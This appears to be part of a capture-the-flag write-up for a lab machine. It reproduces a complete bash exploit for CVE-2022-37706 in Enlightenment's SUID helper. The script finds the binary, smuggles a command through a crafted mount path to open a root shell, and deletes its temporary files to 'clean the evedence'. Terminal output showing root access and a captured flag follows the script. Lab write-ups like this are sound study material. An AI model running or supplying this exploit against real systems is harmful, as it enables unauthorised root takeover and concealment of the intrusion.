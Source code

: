 ```
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"

```

# Privilege Escalation - Success

The exploit worked and granted root permissions. Root flag captured.

```
larissa@boardlight:/tmp$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
If it is not found in fstab, big deal :D 
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cat /root/root.txt
718174bdfcdb66daefc29c0e03928036
# 

```